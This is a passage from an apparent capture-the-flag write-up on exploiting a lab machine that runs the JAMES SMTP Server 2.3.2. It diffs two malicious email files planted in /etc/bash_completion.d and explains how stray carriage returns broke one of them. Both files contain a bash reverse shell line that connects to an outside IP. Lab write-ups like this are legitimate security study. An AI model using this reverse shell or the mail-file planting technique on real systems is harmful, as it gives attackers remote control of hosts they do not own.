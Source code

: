 

To try to figure out why the scripted version worked while the manual
version didn't, with both emails sitting in `/etc/bash_completion.d`, I
ran `diff`:



    root@solidstate:/etc/bash_completion.d# diff 4D61696C313538383231363034383637362D33.Repository.FileStreamStore 4D61696C313538383231363132353231352D34.Repository.FileStreamStore
    1,2c1,2
    < Return-Path: <'0xdf@10.10.14.47>
    < Message-ID: <22085305.3.1588216048676.JavaMail.root@solidstate>
    ---
    > Return-Path: <'@team.pl>
    > Message-ID: <9571892.4.1588216125216.JavaMail.root@solidstate>
    8c8
    <           by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 614
    ---
    >           by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 47
    10,12c10,12
    <           Wed, 29 Apr 2020 23:07:28 -0400 (EDT)
    < Date: Wed, 29 Apr 2020 23:07:28 -0400 (EDT)
    < FROM: 0xdf@10.10.14.47
    ---
    >           Wed, 29 Apr 2020 23:08:45 -0400 (EDT)
    > Date: Wed, 29 Apr 2020 23:08:45 -0400 (EDT)
    > From: team@team.pl
    14,15c14,15
    < '
    < bash -i >& /dev/tcp/10.10.14.47/443 0>&1
    ---
    > '
    > bash -i >& /dev/tcp/10.10.14.47/443 0>&1



It all seemed superficial, such as the ID or the from address, until the
last difference, which, didn't look different at all. I opened them both
in `vi` to see if there was something missing, and there was a subtle
difference:

  Script                                                              Manual
  ------------------------------------------------------------------- -------------------------------------------------------------------
  ![](/img/image-20200429231545372.png)   ![](/img/image-20200429233306700.png)

In my manual interaction, there's extra carriage returns (`\r`, printed
as `^M` in `vi`) after the `'` and after the payload. I don't quite know
why that made such a difference, but removing the two `^M` in vi
(putting the cursor over the character and pushing `x`) made it work. I
could test it by running
`bash 4D61696C313538383231373333333237352D37.Repository.FileStreamStore`.

### Better User Experience
